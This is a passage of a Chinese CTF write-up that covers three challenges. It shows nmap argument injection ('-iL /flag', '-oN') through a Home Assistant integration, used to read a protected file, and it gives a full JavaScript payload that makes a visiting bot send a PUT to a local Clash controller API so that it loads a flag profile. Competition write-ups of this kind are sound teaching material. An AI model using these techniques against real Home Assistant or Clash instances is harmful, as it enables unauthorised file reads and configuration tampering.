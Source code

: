 其实还有个坑，跟运气有关，就是最后分割符选不好出不来，因为结果是 `flag{Ts_fLaG_beTTeR_THan_PYTH0n!}`，flag 里面还有个 fLaG 草！

### 逝界计划

太太太可惜了！！！！！！！！！我二阶段前找到 nmap 了！！！！觉得可疑！！！！但是又不知道怎么判断脚本是否执行！！！！我以为加载集成是不会执行的草草草草草草草！！！！我要是回头看一眼日志（早就看到日志了）就好了！！！！！

注意所有操作都在配置菜单里

二阶段，已知是 nmap 集成，可以输入参数，看看手册，加载文件肯定是 `-iL`，那第一个问题就是如何找到文件，在 docker 配置里告诉我们了是 `/flag`（我瞎了，一开始没看到是绝对路径）

第二个问题是输出，home assistant 有详细日志，加日志等级可以输出个卵蛋，呃，还是有点用的，可以看出文件是否存在……

那就要找别的输出手段，google 一下 nmap 文件读取可得[资料](https://blog.i1nfo.com/posts/ctf-nmap-webshell/index.html#payload-39-lt-eval-GET-cmd-gt-oN-a-phtml-39)，看看其它题怎么输出的？哦，是 `-oN` 选项写到别的文件里

那我怎么下载呢？一开始想覆盖日志，可是不安装一下 docker 我都不知道文件在哪啊喂，所以……我稍稍翻了一下发现有个东西叫做备份，手贱点一点，给了个绝对路径文件的下载……笑死我了

nmap 选项改一改，去下备份文件，打开见到 `Failed to resolve "flag{sOOOo-mAny-LOoPhOLeS-in-hOmE-AsSisTAnt}".`

### 非法所得

二阶段艰难地做出来了，我实在是想吐槽，一个误操作这题环境就要重开草（

本题我基本全部是依赖上面那题[第三新 XSS](#第三新-xss) 提供的环境来写脚本的，这要真的是正解的话，建议下次别出了.jpg

#### Flag 1

提示给的 Clash API 文档……我之前找到过啊草！因为我看到 secret 是空的有所警觉，但觉得反正 visit 只能访问 pku 域名，好像也不能 import 吧.jpg

~~我实在想不到办法了~~，我想到了一个骚操作，实践并且成功了，不知道这是不是预期解啊，感觉不是（

有一个我可以自由操作的 pku 域名网页，是谁呢，锵锵！就是我[第三新 XSS](#第三新-xss)啦！！！

等会，写这段话的时候，我觉得这是预期解了，因为这题涉及原神，而第三新 XSS 那题涉及崩铁……这也是一种提示吗（

这题需要两个网页，然后让靶机访问，第一个是修改：

```html
<p id="p1">Hello World!</p>
<script>        
   const data = {
       path: "/app/profiles/flag.yml"
   };

   fetch('http://127.0.0.1:9090/configs', {
       method: 'PUT',
       headers: {
           'Content-type': 'application/json; charset=utf-8',
       },
       body: JSON.stringify(data),
   }).then(response => response.json())
       .then(data => {
           document.getElementById("p1").innerHTML = JSON.stringify(data);
       })
       .catch((error) => {
           document.getElementById("p1").innerHTML = JSON.stringify(error);
       });
</script>
```
